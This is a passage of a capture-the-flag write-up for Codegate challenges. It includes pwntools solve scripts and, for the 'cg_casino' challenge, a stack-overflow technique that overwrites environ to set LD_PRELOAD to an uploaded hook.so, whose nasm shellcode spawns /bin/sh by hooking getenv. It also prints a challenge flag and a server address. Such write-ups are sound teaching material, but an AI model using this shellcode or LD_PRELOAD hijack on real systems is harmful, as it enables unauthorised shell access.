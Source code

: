 ```
j = 0
for c in e[5:]:
    i = t.index( c ) - ( ord( a[j] ) - 65 ) + 65
    p += chr(i)
    j = (j + 1) % 5

y.sendlineafter( 'King : You have only 1 chance.' , a + p ) # 0 1 1 2 0
# 5 4 4 4 3

y.sendlineafter( '2> Just stay in room' , '2' ) # (0, 1, 0, 0, 0)
# 5 5 4 4 3

y.sendlineafter( 'Enter the key for test 5' , 'T1kT4kT0Kk' )
y.sendlineafter( '3> I will go to the other country.' , '3' )
y.sendlineafter( '3> Go home together.' , '2' )
y.sendlineafter( '2> Enter the room.' , '2' )
y.sendlineafter( '2> No I don\'t.' , '1' )

y.interactive()
```

### cg_casino
> yuawn, Billy, limbo, tens
> 
Use stack overflow to overwrite the `environ` on the stack, so that we can use `/proc/self/environ` to control the content of file.
Upload `hook.so`.

* hook.S:

```nasm
; nasm -f elf64 hook.S -o hook.o && ld --shared hook.o -o hook.so
; ubuntu 16.04 GNU ld (GNU Binutils for Ubuntu) 2.26.1
[BITS 64]
	global getenv:function
	section .text
getenv:
	mov rax, 0x68732f6e69622f
	push rax
	mov rdi, rsp
	xor esi, esi
	push 0x3b
	pop rax
	cdq
	syscall
```

Overwrite `LD_PRELOAD` in `environ` with `./hook.so`, trigger `system("/usr/bin/clear")` in `slot_machine` function. `getenv()` will called by `/usr/bin/clear`, and be hooked on to our shellcode.

* flag.py:

```python
#!/usr/bin/env python
from pwn import *

# CODEGATE{24cb1590e54e43b254c99404e4f86543}

context.arch = 'amd64'
host , port = '110.10.147.113' , 6677

def put( voucher ):
    y.sendlineafter( '6) exit' , '1' )
    y.sendlineafter( 'input voucher :' , voucher )

def mer( fromm ):
```